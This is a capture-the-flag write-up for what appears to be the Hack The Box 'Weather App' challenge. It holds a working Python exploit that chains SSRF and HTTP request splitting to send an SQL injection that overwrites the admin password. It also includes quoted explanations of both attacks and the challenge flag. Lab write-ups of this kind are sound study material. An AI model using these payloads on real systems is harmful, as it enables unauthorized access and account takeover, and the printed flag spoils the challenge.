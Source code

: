 index.js checks if socket remoteaddress isn't:
127.0.0.1 return status(401)

there's a db somewhere.
some app is listening on port 80?

vulnerability:
SSRF, SQL injection
```
Path Point:
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}
```
code:
```py
import requests

url = "http://178.62.106.4:31814"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='


city='test'
proxies={'http':'http://127.0.0.1:8080'};
country='test'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json,proxies=proxies);
```

This took me a long time to guess why the code won't work(yes i stole it from writeup but atleast i took research of SSRF first before i used it)
Apparently, i had to send the proxy data to repeater in order for it to work and then refresh the login webdirectory and see if it gave you the flag or
u can just login again.

this is either SSRF or request splitting but either way i'll try to explain this:

SSRF:
```
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. 
In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.
                                                                                                                                                                                                                                        --PortSwigger
```

SSRF uses a parameter(it can be endpoint or an API parameter, any parameter) that uses a http request to send information to that specified url, and retrieve
the contents of it:
```
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}

PortSwigger:
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Though, i'd rather call this as the network point or path point.

if we update the parameter or path point to:
```
stockApi=http://localhost/admin
```
this gives us the admin console or the contents of the admin webdirectory, we can visit the directory but it will be blocked or it won't show.

Request Splitting:
```
HTTP Request Splitting is an attack that enables forcing the browser to send arbitrary HTTP requests, inflicting XSS and poisoning the browser's cache. 
The essence of the attack is the ability of the attacker, once the victim (browser) is forced to load the attacker's malicious HTML page, to manipulate 
one of the browser's functions to send 2 HTTP requests instead of one HTTP request. Two such mechanisms have been exploited to date: 
the XmlHttpRequest object (XHR for short) and the HTTP digest authentication mechanism. For this attack to work, the browser must use a forward HTTP proxy 
(not all of them "support" this attack), or the attack must be carried out against a host located on the same IP (from the browser's perspective) with the 
attacker's machine.
                                    ----Webappsec.org

PortSwigger:
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or 
more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to 
sensitive data, and directly compromise other application users.
                                    -----PortSwigger

My Explanation:
Request Splitting, as what it says in the name is the ability to send 2 request instead of one request via vulnerable parameters to gain access or to hold
sensitive data.
```

The difference between SSRF and Request Splitting is that:                                                                                                   
```
1) SSRF simply uses a vulnerable parameter that uses specified url to send request to that url and retrieve it back to the client browser.
2) Request Splitting uses a content-length payload on a vulnerable parameter that would get executed and then send another request with the content-length
payload.
```

Explanation of the source code:
```
the endpoint was found from the files downloaded, provided by the HTB(weather App).
It is vulnerable to SSRF; and it is also vulnerable to Request Splitting

the proxy and the endpoint variable is the only thing important to explain the code.
as explained at the top: the endpoint in the code was vulnerable because there was no sanitization

The register was vulnerable to SQL injection( never tried the login )

the proxy is important because this is where we will need to get the retrieved data. The proxy acts as a middle man
between the connection line.

You can use burp suite as your proxy in the code to retrieve the information; and send the request again to repeater.
```
Example of Request Splitting:
```
vulnerable_parameter: GET\thttp://www.target.site/page.cgi?parameters\tHTTP
 /1.0\r\nHost:\twww.target.site\r\nFoo:Bar\r\n\r\nGET\thttp://nosuchhost/\tHTTP 
 /1.0\r\nBaz:","http://www.attacker.site/

or:

endpoint: '127.0.0.1/\HTTP:/\127.0.0.1/\u10APOST/\register/\username&password' + 'blahblah?id=lol'
```
Source:

https://portswigger.net/web-security/request-smuggling

https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/

http://projects.webappsec.org/w/page/13246929/HTTP%20Request%20Splitting


```Proof Of Concept(PoC):
Flag: HTB{w3lc0m3_t0_th3_p1p3_dr34m}
```
![logo](Capture.jpg)
![logo](Capture2.png)
![logo](unkown.png)
